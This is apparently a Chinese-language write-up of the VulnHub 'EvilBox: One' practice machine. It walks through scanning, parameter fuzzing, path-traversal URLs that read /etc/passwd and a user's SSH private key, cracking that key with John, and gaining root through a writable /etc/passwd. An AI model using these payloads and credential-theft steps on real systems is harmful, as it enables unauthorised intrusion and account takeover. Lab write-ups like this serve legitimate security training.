靶场搭建
靶机下载地址：EvilBox: One ~ VulnHub
下载后使用 VMware 或 VirtualBox 导入即可。攻击机使用 Kali Linux，靶机网络设置为 NAT 模式。
信息收集
主机发现与端口扫描
arp-scan -l
nmap --min-rate 10000 -p- 192.168.21.153
开放 22（SSH）和 80（HTTP）端口，扫描详细信息：
nmap -sV -sT -O -p22,80 192.168.21.153
漏洞扫描
nmap --script=vuln -p22,80 192.168.21.153
Web 信息收集
访问 80 端口：

查看 robots.txt：

发现 /secret/ 目录，访问看看：

扫描网站目录：

发现 evil.php，访问后页面全白：

使用 nikto 进行漏洞扫描：
nikto -host 192.168.21.153
nikto -host http://192.168.21.153/dvwa
用 nc 抓包发现异常返回值：

确认存在参数接收，用 ffuf 爆破参数名：
ffuf 参数爆破
ffuf -w /root/Desktop/list -u http://192.168.21.153/secret/evil.php?FUZZ=../robots.txt -fs 0
发现 command 参数可用。
LFI 任意文件读取
尝试读取 /etc/passwd：
http://192.168.21.153/secret/evil.php?command=/../../etc/passwd
确认存在 LFI 漏洞，发现用户 mowree。
SSH 私钥窃取与破解
直接读取 mowree 的 SSH 私钥：
http://192.168.21.153/secret/evil.php?command=../../../../../../../../../home/mowree/.ssh/id_rsa
下载私钥文件，进行 hash 碰撞：

修改权限并转换格式：
chmod 600 hash
python3 ssh2john.py /root/Desktop/hash > /root/Desktop/idrsa
使用 John 爆破：
john idrsa --wordlist=/usr/share/wordlists/rockyou.txt
成功破解密码，使用私钥登录 mowree：
ssh mowree@192.168.21.153 -i idrsa
权限提升
信息收集：

检查 /etc/passwd 权限，发现可写：

生成密码密文并写入 passwd：

su root
成功获取 root 权限。
获取 Flag
